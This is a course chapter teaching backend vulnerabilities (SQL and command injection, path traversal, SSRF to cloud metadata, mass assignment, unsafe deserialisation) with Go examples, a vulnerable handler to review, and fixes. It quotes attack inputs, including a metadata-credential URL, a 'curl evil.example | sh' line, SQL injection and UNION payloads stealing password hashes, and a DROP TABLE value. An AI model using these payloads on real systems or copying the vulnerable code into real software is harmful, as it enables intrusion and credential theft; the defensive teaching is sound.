

# 8.5 Backend vulnerabilities

[Syllabus](../SYLLABUS.md) · Phase 8 · Previous: [8.4 Protecting data](04-protecting-data.md) · Next: 8.6 Abuse and operational security *(planned)*

> **Time:** about 40 minutes to read, 45 minutes of practice.
> **You need:** trust boundaries from [Chapter 8.1](01-threat-modelling.md), the object check from [Chapter 8.3](03-authorization.md), and enough SQL to read a `WHERE` clause. The first two parts of the example need only Go. The third needs the PostgreSQL of [Phase 2](../phase-2-data/README.md), and is skipped without it.

**By the end of this chapter you can**

- recognise the one shape that most of these faults share: input that reaches something which interprets it;
- make SQL injection impossible in a query, and say what to do where a parameter cannot go;
- explain server-side request forgery, why a cloud makes it worse, and defend a feature that fetches URLs;
- stop a request from changing fields that its caller may not change;
- say which data formats are dangerous to read from a stranger;
- use the OWASP API Security Top 10 as a list to review a design against.

---

## The problem

*An illustrative scenario; the example reproduces it.* The invoicing product adds a convenience: *import an invoice from a URL*. A customer pastes a link to a PDF on a supplier's site, and the server fetches it. It ships in a week, and customers like it.

One caller pastes a different link:

```http
POST /invoices/import
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/app-role"}
```

That address is not on the internet. It is the cloud provider's **metadata service**, which answers only from inside a virtual machine, and tells the machine about itself. Among the things that it tells is a set of temporary credentials for the role that the machine runs as. The server fetches the URL, as asked, and shows the *imported invoice* to the caller: the credentials. The role can read the bucket where every tenant's PDFs are kept (Chapter 8.4), so now the caller can too.

This has happened at scale. In 2019 an intruder took data on more than a hundred million people from the bank Capital One. An account of the breach: "The misconfiguration of the WAF allowed the intruder to trick the firewall into relaying requests to a key back-end resource on the AWS platform", the metadata service, and the firewall's role "was allowed to list all of the files in any buckets of data, and to read the contents of each of those files" ([KrebsOnSecurity, 2019](https://krebsonsecurity.com/2019/08/what-we-can-learn-from-the-capital-one-hack/)).

Three things went wrong.

1. **A URL was handled as data.** It is an instruction: *go to this place, as yourself, and bring back what you find*. The server has a position in the network and an identity that the caller does not have, and the feature lent both.
2. **Nothing checked where the request would really go.** A check on the text of a URL is not a check on a destination, as the example will show three times.
3. **The server could reach and read far more than the feature needed.** One mistake in one feature was worth every customer's files.

The first of these is not special to URLs. It is the shape of most of the faults in this chapter.

---

## The concept

### 1. One shape: input that is taken for instructions

Every program hands some of its input to something that interprets it: a database, a shell, a file system, an HTTP client, a decoder. OWASP's definition of the oldest such fault describes them all: "An injection vulnerability is an application flaw that allows untrusted user input to be sent to an interpreter (e.g. a browser, database, the command line) and causes the interpreter to execute parts of that input as commands" ([OWASP Top 10:2025, A05](https://top10.owasp.org/2025/A05_2025-Injection/)).

| What interprets it | A feature that feeds it | What an attacker sends | The fault's name | Section |
|---|---|---|---|---|
| The database | Search | `' OR 1=1 --` | SQL injection | 2 |
| A shell | Make a zip file | `x; curl evil.example \| sh` | Command injection | 2 |
| The file system | Download by name | `../../another-tenant/export` | Path traversal | 2 |
| An HTTP client | Import from a URL | An internal address | Server-side request forgery | 3 |
| The code that fills in an object | Edit a note | `"paid": true` | Mass assignment | 4 |
| A decoder that can build any object | A saved session | An object that runs code when built | Unsafe deserialisation | 5 |

Three rules cover the table.

1. **Keep the instructions and the data in separate channels.** "The best means to prevent injection requires keeping data separate from commands and queries" ([the same page](https://top10.owasp.org/2025/A05_2025-Injection/)). A query with parameters, a command with a list of arguments, a decoder with a fixed type: in each, the input can only ever be a value.
2. **Where input has to choose something, it chooses from your list.** A column to sort by, a host to fetch from, a field to change: the caller's word picks an entry from a list that you wrote, and is never itself used.
3. **Give the interpreter no more power than the feature needs.** One of these will be missed one day. What it costs is decided by what the database role may read, what the server may reach, and what its credentials may do.

Two interpreters are outside this chapter: the browser, whose version is cross-site scripting, and a language model, for which OWASP notes that "A related class of injection vulnerabilities has become common in LLMs" ([the same page](https://top10.owasp.org/2025/A05_2025-Injection/)).

### 2. Injection: SQL, shells and file names

**SQL.** A search for a customer's name, built by joining strings:

```sql
SELECT id, customer FROM invoices WHERE tenant = 'B' AND customer LIKE '%Birch%'
```

Type `' OR 1=1 --` into the box in place of `Birch`, and the database receives a different query, which it has no way to tell from one that the programmer meant:

```sql
SELECT id, customer FROM invoices WHERE tenant = 'B' AND customer LIKE '%' OR 1=1 --%'
```

The fix is not to clean the input. It is to send the query and the value separately, so that the value is never parsed as SQL. PostgreSQL's client library says what that buys: "parameter values can be separated from the command string, thus avoiding the need for tedious and error-prone quoting and escaping" ([PostgreSQL documentation, *Command Execution Functions*](https://www.postgresql.org/docs/current/libpq-exec.html)). OWASP's summary of the whole subject is two rules: "parameterized queries when including dynamic data in SQL requests; for structural parts that cannot be parameterized (table names, column names, sort direction), map user choices to a strict allow-list of fixed, application-owned values" ([OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)).

Where it still goes wrong:

- **The part that cannot be a parameter.** A column name in `ORDER BY` cannot be bound, so it is joined in, and that one place is open. An expression is allowed there, so the order of the results can be made to depend on any data that the role can read. Use the allow-list.
- **A library that builds queries, and one raw fragment.** A query builder is safe exactly as far as it is used. The same is true inside the database: "Even when parameterized, stored procedures can still introduce SQL injection if PL/SQL or T-SQL concatenates queries and data" ([OWASP Top 10:2025, A05](https://top10.owasp.org/2025/A05_2025-Injection/)).
- **Escaping by hand.** "Relying on manually escaping dynamic inputs is error-prone and is strongly discouraged" ([OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)).

Then apply rule 3. "To minimize the potential damage of a successful SQL injection attack, you should minimize the privileges assigned to every database account in your environment" ([the same cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)). A role that can read one tenant's rows of one table (Chapter 8.3) turns a disaster into an incident, and part 3 of the example measures the difference.

**Shells.** The same fault with a different interpreter. Do not build a command line. Go's standard library declines to: "the os/exec package intentionally does not invoke the system shell and does not expand any glob patterns or handle other expansions, pipelines, or redirections typically done by shells" ([Go `os/exec`](https://pkg.go.dev/os/exec)). Pass the program and its arguments as a list, and a semicolon in an argument is a semicolon.

**File names.** A name from the caller that is joined to a directory can climb out of it with `../`. The best fix is rule 2: the server chooses the names of files, and the caller refers to them by an identifier that is looked up, with the object check of Chapter 8.3.

### 3. Server-side request forgery

"Server-Side Request Forgery (SSRF) flaws occur when an API is fetching a remote resource without validating the user-supplied URL. It enables an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall or a VPN" ([OWASP API7:2023](https://api-security.owasp.org/editions/2023/en/0xa7-server-side-request-forgery/)).



It is common because products are full of features that fetch: "Webhooks, file fetching from URLs, custom SSO, and URL previews" ([OWASP API7:2023](https://api-security.owasp.org/editions/2023/en/0xa7-server-side-request-forgery/)). It is worse in a cloud because of what is reachable from inside: "In cloud environments SSRF is often used to access and steal credentials and access tokens from metadata services" ([OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)).

The defence is in layers, because each single one has a way round it.

1. **If you know where the feature should go, list those places.** "Deny-lists are bypass-prone. Prefer allow-lists" ([the same cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)). An integration with three accounting products needs three host names.
2. **If it must fetch from anywhere, check the address when connecting, on every connection.** Not the text of the URL: a name can resolve to an internal address. Not the answer to a lookup made beforehand: the client will look the name up again, and may be told something else. Not the first URL only: a public page can redirect inwards. The one moment that cannot be argued with is the connection itself. Go's dialer has a hook for it: "If Control is not nil, it is called after creating the network connection but before actually dialing" ([Go `net`](https://pkg.go.dev/net)).
3. **Put the fetcher where there is nothing to reach.** "Isolate the resource fetching mechanism in your network: usually these features are aimed to retrieve remote resources and not internal ones" ([OWASP API7:2023](https://api-security.owasp.org/editions/2023/en/0xa7-server-side-request-forgery/)). A small service with no credentials, and with a route to the internet and to nothing inside, has nothing to give away.
4. **Do not hand back what was fetched as it came.** The same page: "Do not send raw responses to clients." Parse the PDF and store the invoice. A response that is never shown is much harder to use.
5. **Harden the metadata service, and narrow the role.** Both are below.

### 4. Mass assignment, and its mirror

Most frameworks will fill in an object from a request for you. "Software frameworks sometimes allow developers to automatically bind HTTP request parameters into program code variables or objects to make using that framework easier on developers" ([OWASP Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)). If the object is the stored one, the request decides which of its fields are written, and it can name fields that no form ever showed.

It caught GitHub in 2012, when a user added a key of their own to an organisation that they did not belong to. "The root cause of the vulnerability was a failure to properly check incoming form parameters, a problem known as the mass-assignment vulnerability" ([GitHub blog, 2012](https://github.blog/news-insights/the-library/public-key-security-vulnerability-and-mitigation/)).

This is the third level of authorization from Chapter 8.3: not *may they change this invoice*, but *which fields of it*. The fix is a type for each direction.

- **In:** a type that has exactly the fields that this endpoint lets this caller change. "Allow changes only to the object's properties that should be updated by the client" ([OWASP API3:2023](https://api-security.owasp.org/editions/2023/en/0xa3-broken-object-property-level-authorization/)). Refuse a request that names anything else, so that a mistake is noticed.
- **Out:** a type that has exactly the fields that this caller may see. Returning the stored object sends every column that it has now, and every column that will be added later. OWASP's advice is to "cherry-pick specific object properties you specifically want to return" (the same page).

### 5. Decoders that build more than data

JSON can describe numbers, strings, lists and maps. Some formats can describe objects of any class in the program, and building such an object can run code. Several languages have such a format built in, and their documentation carries the same warning. Python's: "The pickle module is not secure. Only unpickle data you trust. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling" ([Python documentation](https://docs.python.org/3/library/pickle.html)). OWASP's, for all of them: "Attacks against deserializers have been found to allow denial-of-service, access control, or remote code execution (RCE) attacks" ([OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)).

- **Never decode such a format from outside the trust boundary.** That includes a cookie, a cache that others can write to, and a message on a queue that others can publish to.
- **Use a format that carries only data,** and decode it into a type that you named.
- **Even then, limit it.** A small request can describe a very large object. Limit the size of a body, and the depth and count of what is in it (Chapter 6.4).

### 6. The rest of the list

The [OWASP API Security Top 10](https://api-security.owasp.org/editions/2023/en/0x11-t10/) is the most useful single page to hold a design against. This course has now met every entry.

| | Entry | Where |
|---|---|---|
| 1 | Broken object level authorization | Chapter 8.3 |
| 2 | Broken authentication | Chapter 8.2 |
| 3 | Broken object property level authorization | Section 4 |
| 4 | Unrestricted resource consumption | Chapter 6.4, and Chapter 8.6 |
| 5 | Broken function level authorization | Chapter 8.3 |
| 6 | Unrestricted access to sensitive business flows | Chapter 8.6 |
| 7 | Server-side request forgery | Section 3 |
| 8 | Security misconfiguration | Chapter 8.4 for TLS and secrets; Phase 9 for configuration |
| 9 | Improper inventory management | Old versions and forgotten hosts that still answer: Chapter 1.4, and Phase 9 |
| 10 | Unsafe consumption of APIs | Below |

The last is this chapter's shape once more. "Developers tend to trust data received from third-party APIs more than user input, and so tend to adopt weaker security standards" ([the same page](https://api-security.owasp.org/editions/2023/en/0x11-t10/)). A response from a partner's API is input from outside the boundary. It goes through the same parameters, the same types and the same limits.

---

## A real example

### Run it: one URL fetcher four times, one edit, one search box

[`code/ch05-vulns`](code/ch05-vulns/main.go) is four files, about 520 lines: [`ssrf.go`](code/ch05-vulns/ssrf.go), [`assign.go`](code/ch05-vulns/assign.go) and [`inject.go`](code/ch05-vulns/inject.go) for the three parts.

```bash
go run ./phase-8-security/code/ch05-vulns
```

**Part 1** is the scenario. The HTTP is real, and every server is on your machine. Two small tables stand in for DNS and for routing, so that the code can judge addresses such as `169.254.169.254` as it would in production. The metadata service hands a secret to whatever asks, and a cell says LEAKED when that secret came back to the caller.

```text
PART 1 — "import an invoice from a URL". Six URLs, and four versions of the code that fetches.

  the URL that the caller gives                          1         2         3         4
  an invoice on a customer's site                        fetched   fetched   fetched   fetched
  the metadata service, by its address                   LEAKED    refused   refused   refused
  an internal admin page, by its address                 LEAKED    refused   refused   refused
  the attacker's own name for the metadata address       LEAKED    LEAKED    refused   refused
  a public page that redirects to the metadata service   LEAKED    LEAKED    LEAKED    refused
  a name that answers differently the second time        LEAKED    LEAKED    LEAKED    refused

  1  fetches whatever it is given
  2  refuses a URL that is written with an internal address
  3  looks the name up first, and refuses if the answer is internal
  4  refuses at the moment of connecting, on every connection

  The rule of version 4 as a hook on Go's own dialer, tried on a real listener at 127.0.0.1:
    refused: an internal address, before any connection was made
```

Each version was written to stop the row above it, and each is beaten by the row below.

- **Version 2** reads the URL. The fourth URL has nothing internal in it: it is a name that the attacker owns, and the attacker's DNS says that it lives at the metadata address.
- **Version 3** looks the name up before fetching. That stops the fourth URL and not the last two. A public page answers with a redirect, and the client follows it. And for the last URL, the attacker's DNS gives a public address to the first question and the metadata address to the second:

```go
		if ip, err := n.resolve(u.Hostname()); err != nil || internal(ip) {
			return "", errInternal
		}
		return get(n.client(nil), raw) // …and then the client looks the name up again
```

- **Version 4** has no check before the request at all. It checks the address of each connection as the connection is made, which covers the first request, every redirect, and whatever DNS said this time. The rule is one function:

```go
func internal(ip net.IP) bool {
	return ip == nil || ip.IsLoopback() || ip.IsPrivate() || ip.IsLinkLocalUnicast() || ip.IsUnspecified() || ip.IsMulticast()
}
```

In the program the check sits in front of the simulated network. On a real one it is the dialer's hook, and the last two lines of the output are that hook refusing a real connection to this machine:

```go
func guarded() *net.Dialer {
	return &net.Dialer{Control: func(_, address string, _ syscall.RawConn) error {
		host, _, err := net.SplitHostPort(address)
		if err != nil || internal(net.ParseIP(host)) {
			return errInternal
		}
		return nil
	}}
}
```

Version 4 is still a server that will fetch any public URL for anyone. Layers 3 and 4 of section 3 are about that, and Chapter 8.6 limits how often.

**Part 2.** A member may edit the note on an invoice. The request is a JSON object, and one caller adds three fields that the form does not have.

```text
PART 2 — a member may edit the note on an invoice. One request also names paid, pence and tenant.

  how the handler reads the body                         status  note      paid     pence  tenant
  before any request                                             ""        false   48,000  A
  straight into the stored invoice                       200     "thanks"  true         1  B
  into a type that has the one field that may change     400     ""        false   48,000  A
  the same handler, and a request with the note alone    200     "thanks"  false   48,000  A
```

The first handler decodes the request into the stored invoice, so the request chose what to write: the invoice is paid, costs a penny, and belongs to tenant B. The second decodes into a type that has one field, and refuses a request that names any other:

```go
// noteEdit is everything that this endpoint lets a caller change.
type noteEdit struct {
	Note *string `json:"note"`
}
```

```go
		var edit noteEdit
		dec := json.NewDecoder(r.Body)
		dec.DisallowUnknownFields()
		if err := dec.Decode(&edit); err != nil || edit.Note == nil {
			http.Error(w, "this endpoint changes the note, and nothing else", 400)
			return
		}
		stored.Note = *edit.Note
```

The check of Chapter 8.3 would pass in both handlers, because the caller *may* edit this invoice. It answers a different question.

**Part 3** needs PostgreSQL. A member of tenant B searches for a customer, and three things are typed into the box. Each is run three ways.

```text
PART 3 — a search box. The caller is a member of tenant B, and the search should stay inside B.

  typed into the box:  Birch
    joined into the query                        8 rows, all of tenant B
    sent as a parameter                          8 rows, all of tenant B
    joined, by a role limited to B's invoices    8 rows, all of tenant B

  typed into the box:  ' OR 1=1 --
    joined into the query                        2,000 rows, of 50 tenants
    sent as a parameter                          0 rows
    joined, by a role limited to B's invoices    40 rows, all of tenant B

  typed into the box:  ' UNION SELECT 0, email, password_hash FROM vn_users --
    joined into the query                        40 rows of invoices, and 3 users with password hashes
    sent as a parameter                          0 rows
    joined, by a role limited to B's invoices    an error: permission denied for table vn_users

  "Sort by" cannot be a parameter, so the caller's word chooses from a list:
    "amount"                           ORDER BY pence
    "pence; DROP TABLE vn_invoices"    refused: not one of date, amount, customer
```

- **Joined into the query**, the second input reads every tenant's invoices: the condition on the tenant was part of the text, and the text was rewritten. The third reads another table.
- **Sent as a parameter**, both inputs are names of customers that nobody has. The two functions differ in one line each:

```go
	sql := "SELECT id, tenant, customer FROM vn_invoices WHERE tenant = '" + tenant +
		"' AND customer LIKE '%" + typed + "%' ORDER BY id"
```

```go
	sql := "SELECT id, tenant, customer FROM vn_invoices WHERE tenant = $1 AND customer LIKE '%' || $2 || '%' ORDER BY id"
	return collect(q.Query(ctx, sql, tenant, typed))
```

- **The third line of each group is rule 3.** The query is the vulnerable one. The role that runs it has the row-level security of Chapter 8.3, and no right to the users table. The injection works, and gets forty rows that the caller could have had anyway, and an error.

The last two lines are the allow-list for the part that cannot be a parameter:

```go
var sortable = map[string]string{"date": "id", "amount": "pence", "customer": "customer"}
```

### How AWS changed the metadata service: a session, not a question

The first version of Amazon's metadata service answered any `GET` from inside the machine. That was its purpose, and a good one. It "solved a big security headache for cloud users by providing access to temporary, frequently rotated credentials, removing the need to hardcode or distribute sensitive credentials to instances" ([Colm MacCárthaigh, AWS Security Blog, 2019](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/)), which is the advice of Chapter 8.4. It also meant that any fault which let an outsider cause one `GET` was enough.

In November 2019 AWS released a second version, and described the change in terms of the faults of this chapter. "SSRF vulnerabilities allow attackers to make unauthorized requests from web applications. Since these requests come from the application itself, they can be used to access internal resources that the application has access to but that were not intended to be accessible to outsiders" ([Colm MacCárthaigh, AWS Security Blog, 2019](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/)).

The new version asks for something that a forged request can rarely supply. "With IMDSv2, every request is now protected by session authentication", and "The software starts a session with a simple HTTP PUT request to IMDSv2. IMDSv2 returns a secret token to the software running on the EC2 instance, which will use the token as a password to make requests to IMDSv2 for metadata and credentials" ([the same post](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/)). A feature that fetches a URL makes a `GET` with no special header. It cannot make a `PUT`, read the answer, and send that answer back in a header of a second request. Two further details stop relays: the service "will also not issue session tokens to any caller with an X-Forwarded-For header", and the packet that carries the token is sent with a hop limit of one, so that it cannot travel beyond the machine.

Two things to take from it.

- **Turn it on, and turn the old version off.** OWASP's cheat sheet says the same: "To leverage this protection migrate to IMDSv2 and disable old IMDSv1" ([OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)).
- **It is a pattern for your own internal services.** An endpoint that gives something valuable to any `GET` from inside the network is trusting the network (Chapter 8.1). Requiring a step that a confused client cannot be tricked into is cheap.

---

## Trade-offs

**A list of allowed destinations against a feature that works everywhere.** The list is the strong defence and the weak product: every new supplier's site is a support ticket. Use it where the destinations are few and known. Where they are not, use the check at the connection, and isolate the fetcher.

**A check at the connection against customers on private networks.** Some customers do keep their files at internal addresses, of their own networks. The check refuses them, correctly. Serving them means an agent that runs on their side, and not an exception in the rule.

**Strict types against easy change.** A handler that refuses unknown fields will refuse a newer client that sends a field which this server has not learned yet (Chapter 9.3 is about that). Be strict where a field could be dangerous, and say in the API's documentation which you are.

**Parameters against flexible queries.** Reports with a dozen optional filters and a choice of sort order are where string-building creeps back. Keep the two rules of section 2 and build the query from fixed pieces: every value a parameter, every name from a map.

**A filter in front against a fix in the code.** A web application firewall that recognises attacks can buy time while a fault is fixed. It is a deny-list, with the weakness of every deny-list, and it is one more component with a role and a place in the network. In the Capital One breach the component that was tricked into fetching was the firewall.

**Helpful errors against quiet ones.** A database's error message, sent to the caller, tells an attacker which guess was nearly right. Send a general message, and keep the detail in the log (Chapter 7.1).

---

## Practice

### Check yourself

1. Every query in a service uses parameters, through a query builder. A colleague adds `ORDER BY` and then the caller's `sort` value, joined in, *because a column name cannot be bound*. Can it be exploited? What is the fix?
2. A URL-fetching feature resolves the host name, refuses private and link-local addresses, and then fetches with the standard HTTP client. Give two ways to reach the metadata service all the same.
3. A handler for `PATCH /invoices/{id}` calls the policy function of Chapter 8.3, which allows the caller to edit this invoice, and then decodes the body into the stored invoice. What can the caller do? Which level of authorization is missing?

<details>
<summary>Answers</summary>

1. Yes. What follows `ORDER BY` can be an expression, with a subquery in it, so the caller can make the order of the results, or an error, or the time that the query takes, depend on any data that the role can read, and can ask one such question with each request. The fix is the map of section 2: the caller's word selects a column name that the code wrote, and anything else is refused.
2. A redirect: a public page answers with a `Location` that points at the metadata address, and the client follows it without the check. A second lookup: the attacker's DNS gives a public address when the check asks and the metadata address when the client connects. Both are closed by checking the address of every connection as it is made.
3. Set any field that the stored type has: mark the invoice paid, change its amount, or move it to another tenant. The object level was checked, and correctly. The property level was not: nothing said *which fields* this caller may change. Decode into a type that has only those.

</details>

### Exercise: review a handler

This handler is in [`code/ch05-vulns/review/review.go`](code/ch05-vulns/review/review.go). It saves a tenant's export settings, makes a zip of the tenant's invoices with the tenant's logo on the cover, and sends it back. It compiles, and it works for an honest caller. Find six faults. For each, name what interprets the input, and say how you would fix it.

```go
func export(db *sql.DB, stored *settings) http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		q := r.URL.Query()
		tenant := q.Get("tenant")
		json.NewDecoder(r.Body).Decode(stored)
		rows, err := db.Query(fmt.Sprintf(
			"SELECT id FROM invoices WHERE tenant = '%s' AND status = '%s' ORDER BY %s",
			tenant, q.Get("status"), q.Get("sort")))
		if err != nil {
			http.Error(w, err.Error(), 500)
			return
		}
		defer rows.Close()
		logo, err := http.Get(stored.LogoURL)
		if err == nil {
			defer logo.Body.Close()
			io.Copy(w, logo.Body)
		}
		name := q.Get("name")
		exec.Command("sh", "-c", "zip -r /var/exports/"+name+".zip /var/invoices/"+tenant).Run()
		data, _ := os.ReadFile("/var/exports/" + name + ".zip")
		w.Write(data)
	}
}
```

The stored settings have four fields: `tenant`, `plan`, `logo_url` and `footer`.

<details>
<summary>Worked solution</summary>

| | The line | What is wrong | The fix |
|---|---|---|---|
| 1 | `tenant := q.Get("tenant")` | The caller says which tenant they are. Chapter 8.3's first mistake | Take the tenant from the session |
| 2 | `Decode(stored)` | Mass assignment: the body can set `tenant`, and `plan`, which is what the customer is billed for | Decode into a type that has `footer` alone |
| 3 | `db.Query(fmt.Sprintf(…))` | SQL injection, three times: two values and a column name | Values as parameters. The column from a map |
| 4 | `http.Get(stored.LogoURL)` | Request forgery, with the answer copied to the caller. The URL was stored earlier, so the attack is in two steps and easy to miss | The fetcher that checks each connection. Never send back what was fetched |
| 5 | `exec.Command("sh", "-c", …)` | Command injection: `name` and `tenant` are joined into a line for a shell | No shell. The program and its arguments as a list |
| 6 | `os.ReadFile(… + name + …)` | Path traversal: a `name` with `../` in it reads another tenant's export | The server chooses the file's name |

There is a seventh if you looked for it: `http.Error(w, err.Error(), 500)` sends the database's own error message to the caller, which makes fault 3 much easier to use.

The same file has the corrected handler. Its lines for faults 2 and 3:

```go
		var edit struct { // 2: the one setting that this endpoint changes
			Footer *string `json:"footer"`
		}
		dec := json.NewDecoder(r.Body)
		dec.DisallowUnknownFields()
```

```go
		column, ok := sortable[q.Get("sort")] // 3: a column is chosen from a list…
		if !ok {
			http.Error(w, "sort by date or amount", 400)
			return
		}
		rows, err := db.Query( // …and a value is sent as a parameter
			"SELECT id FROM invoices WHERE tenant = $1 AND status = $2 ORDER BY "+column,
			tenant, q.Get("status"))
```

And for faults 5 and 6, where one decision removes both. The caller no longer names a file at all:

```go
		out := filepath.Join("/var/exports", d.randomName()+".zip")    // 5 and 6: the server names the file
		zip := exec.Command("zip", "-r", out, "/var/invoices/"+tenant) // 5: no shell, and arguments as a list
```

Notice what the six have in common. In every one, a string from the request was joined to a string from the program and given to something that reads strings as instructions. And notice the order in which the fixes help. Fault 1 makes every other fault available to every caller, about every tenant, so it is first.

</details>

---

## Production tips and common mistakes

- **Send every value to the database as a parameter.** Search the code for queries that are built with string joining or formatting, and treat each as a fault until shown otherwise.
- **Choose columns, tables and directions from a map.** Never join a caller's word into a query.
- **Give each service its own database role,** with the tables and rows that it needs and no others.
- **Run programs with a list of arguments, and no shell.**
- **Let the server name files.** Callers refer to them by an identifier that is looked up and checked.
- **For every feature that fetches a URL, check the address of every connection,** turn off the old metadata service, and run the fetcher where it can reach nothing.
- **Do not show a caller what the server fetched.**
- **Decode requests into a type for that endpoint,** and build responses from a type for that caller.
- **Accept only formats that carry data.** Limit the size and depth of what you decode.
- **Treat a partner's API as a stranger's input.**
- **Keep the database's and the system's error messages in the log.**
- **Review each new endpoint against the ten entries of section 6.**

Common mistakes:

- **Cleaning input in place of separating it.**
- **Parameters everywhere, and one `ORDER BY` built from the request.**
- **A check on the text of a URL.**
- **A check before the request, and none at the connection.**
- **Following redirects from a fetch made for a stranger.**
- **A server role that may read every bucket.**
- **Decoding a request into the stored object.**
- **Returning the stored object.**
- **A firewall offered as the fix.**
- **Trusting a response because a partner sent it.**

---

## Key takeaways

- Most of these faults are one fault: input that reaches a database, a shell, a file system, an HTTP client or a decoder, and is read there as instructions.
- Keep data and instructions in separate channels. Where input has to choose something, it chooses from a list that you wrote.
- A query with parameters cannot be injected. A column name cannot be a parameter, so it comes from a map.
- A server that fetches a URL lends its place in the network and its identity. Check the address of every connection as it is made, isolate the fetcher, and do not return what it fetched.
- A request must not decide which fields are written. Use a type for what comes in and another for what goes out.
- One of these will be missed. A narrow database role, a narrow cloud role and a network with nothing to reach decide what the mistake costs.

**Next:** 8.6 Abuse and operational security *(planned)* — every request is now authenticated, authorized and safely handled. Some callers will still send a million of them, and some of the most powerful credentials in the company belong to its own tools.

---

## Sources

- OWASP, [*Top 10:2025, A05 Injection*](https://top10.owasp.org/2025/A05_2025-Injection/).
- OWASP, *API Security Top 10 2023*: [the list](https://api-security.owasp.org/editions/2023/en/0x11-t10/); [API3, Broken Object Property Level Authorization](https://api-security.owasp.org/editions/2023/en/0xa3-broken-object-property-level-authorization/); [API7, Server Side Request Forgery](https://api-security.owasp.org/editions/2023/en/0xa7-server-side-request-forgery/).
- OWASP Cheat Sheet Series: [*SQL Injection Prevention*](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html); [*Server-Side Request Forgery Prevention*](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html); [*Mass Assignment*](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html); [*Deserialization*](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html).
- PostgreSQL documentation, [*Command Execution Functions*](https://www.postgresql.org/docs/current/libpq-exec.html).
- Go documentation: [`os/exec`](https://pkg.go.dev/os/exec); [`net`](https://pkg.go.dev/net); [`encoding/json`](https://pkg.go.dev/encoding/json).
- Python documentation, [*pickle — Python object serialization*](https://docs.python.org/3/library/pickle.html).
- Colm MacCárthaigh, [*Add defense in depth against open firewalls, reverse proxies, and SSRF vulnerabilities with enhancements to the EC2 Instance Metadata Service*](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/), AWS Security Blog, 2019.
- KrebsOnSecurity, [*What We Can Learn from the Capital One Hack*](https://krebsonsecurity.com/2019/08/what-we-can-learn-from-the-capital-one-hack/), 2 August 2019.
- GitHub, [*Public Key Security Vulnerability and Mitigation*](https://github.blog/news-insights/the-library/public-key-security-vulnerability-and-mitigation/), 2012.
